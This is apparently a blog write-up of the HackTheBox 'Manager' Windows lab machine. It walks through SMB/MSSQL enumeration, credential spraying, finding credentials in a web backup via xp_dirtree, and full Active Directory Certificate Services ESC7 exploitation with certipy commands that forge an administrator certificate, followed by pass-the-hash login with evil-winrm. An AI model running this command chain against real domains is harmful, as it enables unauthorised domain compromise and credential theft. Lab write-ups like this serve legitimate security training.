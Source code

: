 ```yaml
---
layout: post
title: "Manager-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/5ca8f0c721a9eca6f1aeb9ff4b4bac60.webp
---
```


# Manager

HackTheBox: Medium

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled.png' | relative_url }})
<br/><br/>
With Rustscan we found 
<br/><br/>
> 445 SMB
1433 mssql
464 kpass
88 Kerberos
> 
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_1.png' | relative_url }})
<br/><br/>
That’s how we find active users in the machine
<br/><br/>
~Spray all the users found using Crackmapexec
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_2.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
> Crackmapexec is a useful tool but it is not maintained anymore so we are going to chanche a .py file something with the ssl version.
> 
<br/><br/>
Enum shared resources

<aside>
💡 Impacket-smbclient
Impacket-mssqlclient

</aside>
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_3.png' | relative_url }})
<br/><br/>
Once inside of shared resources we were able to access the database tables, we started looking into their contents. We hace content in xp_dirtree
<br/><br/>
We can check documentation to find web page resources 
<br/><br/>
```bash
 EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```
<br/><br/>
find a website backup  with creds, use wget to download it locally, using evil-wirm to access
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_4.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
```bash
whoami /groups /priv
```
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_5.png' | relative_url }})
<br/><br/>
Evil winrm a advantage, the capacity of upload and create files from remote machine
<br/><br/>
```bash
upload cerfity.exe
./Certify.exe find /vulnerable
```
<br/><br/>
> Now we’re gonna use certipy, with an auth we get  specific vulnerabilities and exploit them
> 
<br/><br/>
```bash
certipy find -u user@--- -p "rtgre" -enable -vulnearable -target manager.htb
```
<br/><br/>
Vulnerable to ESC7 find mor info [HERE](https://github.com/ly4k/Certipy#esc7) and exploit
<br/><br/>
```bash
#Add an officer named 'raven' to the CA named 'manager-DC01-CA' given managecertificate rights
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password '<password>' 

#Enable a certificate template named 'SubCA' for the CA 'manager-DC01-CA'.
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password '<password>' 

#Submit a certificate request for the template 'SubCA' to the CA 'manager-DC01-CA'.
#It fails but we just need the private key to sign the certificate to issue directly
certipy req -username raven@manager.htb -password '<password>' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb 

#Issue the certificate based on the request submitted.
certipy ca -ca "manager-DC01-CA" -issue-request <private_key_id> -username 'raven@manager.htb' -password '<password>' 

#Retrieve the issued certificate.
certipy req -username 'raven@manager.htb' -password '<password>' -ca "manager-DC01-CA" -target manager.htb -retrieve <private_key_id>
```
<br/><br/>
You’ve got a hash for admin with
<br/><br/>
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
<br/><br/>
Whether for some reason it shows you an error message try to sync servers like this
<br/><br/>
```bash
sudo ntpdate -u manager.htb
```
<br/><br/>
And finally
<br/><br/>
```bash
evil-winrm -i 10.10.11.236 -u administrator -H password
```
<br/><br/>
Machine pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
